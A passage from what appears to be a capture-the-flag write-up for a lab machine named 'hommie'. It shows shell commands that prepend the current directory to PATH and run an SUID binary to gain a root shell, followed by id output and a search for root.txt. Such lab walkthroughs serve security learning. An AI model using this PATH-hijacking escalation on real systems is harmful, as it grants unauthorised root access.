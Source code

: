 ```bash
alexia@hommie:/tmp$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```


Prepend the current directory (or where the new service executable is located) to the PATH variable, and execute the SUID file for a root shell:
```bash                                                      
alexia@hommie:/tmp$ PATH=.:$PATH /opt/showMetheKey
root@hommie:/tmp# whoami;id
root
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(alexia)
root@hommie:/root# cat note.txt 
I dont remember where I stored root.txt !!!
root@hommie:/# find . -name root.txt
./usr/include/root.txt
```

And we are root!
